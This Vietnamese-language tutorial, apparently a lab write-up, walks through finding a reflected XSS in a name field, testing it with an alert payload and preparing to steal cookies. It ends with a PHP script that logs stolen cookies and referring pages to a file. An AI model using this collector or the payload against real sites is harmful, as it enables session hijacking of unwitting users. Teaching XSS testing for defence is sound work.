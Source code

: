Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

>
> <?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>


